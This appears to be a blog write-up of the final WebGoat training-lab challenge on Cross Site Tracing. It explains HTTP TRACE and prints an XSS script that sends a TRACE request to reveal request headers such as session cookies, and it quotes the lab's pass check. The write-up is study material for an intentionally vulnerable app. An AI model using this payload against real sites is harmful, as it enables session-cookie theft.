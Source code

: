 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 9 (Final)"
date:   2017-01-27 13:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

Instructions:

- Tomcat is configured to support the HTTP TRACE command. Your goal is to perform a Cross Site Tracing (XST) attack. 

Alright, so what does the TRACE command do? Apparently, it invokes a remote, application-layer loop-back of the request message. The client can see what is being received at the other end of the request chain and use that data for diagnostic information. [w3 Trace Protocol][w3-trace]

Hmm..request loop-back. So we can view the full request including headers? Well if we could get a user to run a ```TRACE``` command that would mean we could steal session cookies (as long as we can view the ```TRACE``` response). Let's craft a little XSS payload to perform a trace.

```
<script>
function callHTTPTrace() {
	xmlHTTP = new XMLHttpRequest();
	xmlHTTP.open("TRACE", "attack?Screen=75&menu=900", false);
	xmlHTTP.onreadystatechange = function () {
		if (xmlHTTP.readyState == 4 && xmlHTTP.status == 200) {
			alert(xmlHTTP.response)
		}
	}
	xmlHTTP.send();
}
callHTTPTrace();
</script>
```

The browser actually fails this script with the console log:

```
SecurityError: The operation is insecure.
```

However, we pass the lesson. If we check the source, we can see that it is 

```
if (param1.toLowerCase().indexOf("script") != -1 && param1.toLowerCase().indexOf("trace") != -1)
{
	makeSuccess(s);
}
```

So on an insecure/outdated browser, this attack could likely still be used. Additionally, only if the ```TRACE``` command is enabled by the server (which many servers don't allow). I'm not sure entirely how useful this attack is when it is deployed like this.

### Resources

[w3-trace]:https://www.w3.org/Protocols/rfc2616-sec9.html